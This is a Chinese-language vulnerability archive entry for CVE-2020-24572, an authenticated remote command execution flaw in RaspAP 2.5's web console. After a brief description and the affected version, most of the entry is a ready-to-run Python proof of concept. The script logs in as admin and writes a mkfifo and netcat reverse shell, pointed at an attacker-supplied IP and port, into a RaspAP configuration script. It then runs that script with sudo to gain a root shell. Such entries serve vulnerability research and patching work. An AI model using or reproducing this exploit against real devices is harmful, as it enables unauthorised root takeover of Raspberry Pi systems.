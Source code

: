 （CVE-2020-24572）RaspAP 2.5 远程命令执行漏洞
=============================================

一、漏洞简介
------------

在RaspAP
2.5的`include/webconsole.php`中发现了一个问题。借助经过身份验证的访问，攻击者可以使用配置错误（并且实际上不受限制）的Web控制台攻击运行该软件的底层OS（Raspberry
Pi），并在系统上执行命令（包括用于上传文件和执行代码的命令）。

二、漏洞影响
------------

RaspAP 2.5

三、复现过程
------------

### poc

> CVE-2020-24572.py

![1.png](./.resource/(CVE-2020-24572)RaspAP2.5远程命令执行漏洞/media/rId25.png)![2.png](./.resource/(CVE-2020-24572)RaspAP2.5远程命令执行漏洞/media/rId26.png)

    #/usr/bin/python3

    #####################################################
    ##############       deadb0x.io        ##############
    #####################################################
    ###      Proof of Concept for CVE-2020-24572      ###
    ###     (Authenticated) Remote Code Execution     ###
    ###             via Webconsole.php in             ###
    ###                  RaspAP v2.5                  ###
    ###         github.com/billz/raspap-webgui        ###
    ###         github.com/nickola/web-console        ###
    #####################################################
    ### Written by: lunchb0x - Disc. Date: 08/24/2020 ###
    #####################################################
    ###       deadb0x.io/lunchb0x/CVE-2020-24572      ###
    ###         github.com/lb0x/CVE-2020-24572        ###
    #####################################################

    import os
    import sys
    import requests
    from termcolor import colored

    if len(sys.argv) != 6:
        print("---------------------------------------------------------------------------------------")
        print("USAGE: rasp_pwn.py [target_ip] [port] [attacker_ip] [attacker_port] [RaspAP_admin_pass]")
        print("---------------------------------------------------------------------------------------")
        exit(1)

    target = sys.argv[1]
    port = sys.argv[2]
    listener_ip = sys.argv[3]
    listener_port = sys.argv[4]
    raspap_user = "admin"
    raspap_pass = sys.argv[5]

    session = requests.Session()
    session.auth = (raspap_user, raspap_pass)


    json_req_1 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "echo 'touch \/tmp\/f;rm \/tmp\/f;mkfifo \/tmp\/f;cat \/tmp\/f|\/bin\/bash -i 2>&1|nc %s %d >\/tmp\/f' >> \/etc\/raspap\/lighttpd\/configport.sh"%(listener_ip, listener_port)
                            ],
                  "id":6
                  }

    json_req_2 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "sudo /etc/raspap/lighttpd/configport.sh"
                            ],
                  "id":6
                  }

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_1)
    print(colored("[!]", 'green') + " Reverse shell injected")
    print(colored("[!]", 'yellow') + " Sending activation request - Make sure your listener is running . . .")
    os.system("stty -echo")
    input(colored("[>>>]", 'green')+" Press ENTER to continue . . .")
    os.system("stty echo")
    print(colored("\n[!]", 'green') + " You should be root :)")

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_2)
    print(colored("[*]", 'green') + " Done.")


    print(colored("----------------", 'yellow'))
    print(colored("[] deadb0x.io", 'yellow'))
    print(colored("----------------", 'yellow'))

参考链接
--------

> https://deadb0x.io/lunchb0x/cve-2020-24572/
